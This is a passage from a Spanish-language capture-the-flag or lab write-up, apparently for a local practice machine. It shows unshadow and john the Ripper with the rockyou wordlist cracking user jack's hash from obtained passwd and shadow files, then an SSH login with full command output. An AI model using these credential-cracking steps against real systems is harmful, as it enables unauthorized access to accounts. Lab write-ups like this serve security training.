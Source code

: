 Seguimos con el plan, por lo que uniremos los ficheros obtenidos con **unshadow** y aplicaremos **john** para crackear.


### Fuerza bruta

~~~
❯ unshadow passwd shadow > hashes

❯ john -w=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
joxxxxxa         (jack)
1g 0:00:00:01 DONE (2023-01-19 00:58) 0.6172g/s 2528p/s 2528c/s 2528C/s energy..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~

Con esto tenemos la contraseña de *jack*, así que vamos a conectarnos por SSH.


## Reconocimiento SSH

~~~
❯ ssh jack@$ip
The authenticity of host '192.168.1.134 (192.168.1.134)' can't be established.
ECDSA key fingerprint is SHA256:yefCztW0Lf54Kj6+M55D8wqwp07rkEW4JoIl4Dv0VKs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.134' (ECDSA) to the list of known hosts.
jack@192.168.1.134's password: 
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-47-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jan 19 12:32:11 AM UTC 2023

  System load:  0.0               Processes:               110
  Usage of /:   54.2% of 9.75GB   Users logged in:         0
  Memory usage: 26%               IPv4 address for enp0s3: 192.168.1.134
  Swap usage:   0%


3 updates can be applied immediately.
To see these additional updates run: apt list --upgradable


Last login: Mon Sep  5 12:01:58 2022 from 192.163.0.90
~~~
